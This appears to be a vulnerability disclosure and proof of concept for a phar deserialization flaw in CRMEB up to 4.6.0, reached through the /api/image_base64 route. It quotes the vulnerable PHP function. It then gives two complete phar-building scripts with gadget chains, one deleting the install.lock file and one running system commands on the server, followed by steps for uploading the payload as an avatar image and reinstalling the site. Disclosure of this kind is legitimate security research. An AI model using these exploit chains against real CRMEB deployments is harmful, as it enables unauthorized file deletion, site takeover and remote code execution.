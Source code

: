 # CRMEB is vulnerable to deserialization

## Description
    A deserialization vulnerability exists in the CRMEB <= 4.6.0
## Vendor Homepage
    https://gitee.com/ZhongBangKeJi/CRMEB,https://www.crmeb.com/

## Author
    HuBenLab
## Proof of Concept
The problem lies in the /api/image_base64 route, which corresponds to the function put_image in api/controller/v1/PublicController.php

```php
    function put_image($url, $filename = '')
    {

        if ($url == '') {
            return false;
        }
        try {
            if ($filename == '') {

                $ext = pathinfo($url);
                if ($ext['extension'] != "jpg" && $ext['extension'] != "png" && $ext['extension'] != "jpeg") {
                    return false;
                }
                $filename = time() . "." . $ext['extension'];
            }

            //文件保存路径
            ob_start();
            readfile($url);
            $img = ob_get_contents();
            ob_end_clean();
            $path = 'uploads/qrcode';
            $fp2 = fopen($path . '/' . $filename, 'a');
            fwrite($fp2, $img);
            fclose($fp2);
            return $path . '/' . $filename;
        } catch (\Exception $e) {
            return false;
        }
    }
}
```

Analyze the code, first enter to get into the put_image function in front of the image_to_base64 function must return flase, as long as it can not initiate a normal request, and then come to the readfile function $url is controllable, and readfile function is also in the table that triggers phar deserialization.

Find a class of arbitrary file deletion, and first generate a phar file, and after generation change the file suffix to .png.

```php
<?php
namespace PhpOffice\PhpSpreadsheet\Shared{
class XMLWriter{
    private $tempFileName = '../../public/install.lock';//这里最要使用绝对路径，删除重装锁。
}
}
namespace {
    use PhpOffice\PhpSpreadsheet\Shared\XMLWriter;
    @unlink('shell.png');
    $phar = new Phar("shell.phar"); //
    $phar->startBuffering();
    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
    $object = new XMLWriter();
    $phar->setMetadata($object);
    $phar->addFromString("a", "a"); //添加要压缩的文件

    $phar->stopBuffering();

    echo (base64_encode(serialize(new  XMLWriter())));

}
?>
```

```php
<?php
namespace League\Flysystem\Cached\Storage{

    class Psr6Cache{
        private $pool;
        protected $autosave = false;
        public function __construct($exp)
        {
            $this->pool = $exp;
        }
    }
}

namespace think\log{
    class Channel{
        protected $logger;
        protected $lazy = true;

        public function __construct($exp)
        {
            $this->logger = $exp;
            $this->lazy = false;
        }
    }
}

namespace think{
    class Request{
        protected $url;
        public function __construct()
        {
            $this->url = '<?= system(\'touch /tmp/nishi\'); exit(); ?>';
        }
    }
    class App{
        protected $instances = [];
        public function __construct()
        {
            $this->instances = ['think\Request'=>new Request()];
        }
    }
}

namespace think\view\driver{
    class Php{}
}

namespace think\log\driver{

    class Socket{
        protected $config = [];
        protected $app;
        protected $clientArg = [];

        public function __construct()
        {

            $this->config = [
                'debug'=>true,
                'force_client_ids' => 1,
                'allow_client_ids' => '',
                'format_head' => [new \think\view\driver\Php,'display'], # 利用类和方法
            ];
            $this->app = new \think\App();
            $this->clientArg = ['tabid'=>'1'];
        }
    }
}


namespace {
    @unlink('shell.png');
    $phar = new Phar("phar.phar"); //
    $phar->startBuffering();
    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
    $c = new think\log\driver\Socket();
    $b = new think\log\Channel($c);
    $a = new League\Flysystem\Cached\Storage\Psr6Cache($b);

    $phar->setMetadata($a);
    $phar->addFromString("a", "a"); //添加要压缩的文件

    $phar->stopBuffering();

}
?>
```

Come to the front-end avatar upload. Here first you have to register a member user, some environments are missing features, you can use the test user, if you can't log in then you can't take advantage of it.

![image-20230605161700250](./img/image-20230605161700250.png)

Use phar for deserialization to remove reload locks, because I write a lot of output in my code here, so the corresponding package responds with more information.

![image-20230605161734979](./img/image-20230605161734979.png)

Revisiting the site revealed that it could be reinstalled.

![image-20230605161811953](./img/image-20230605161811953.png)

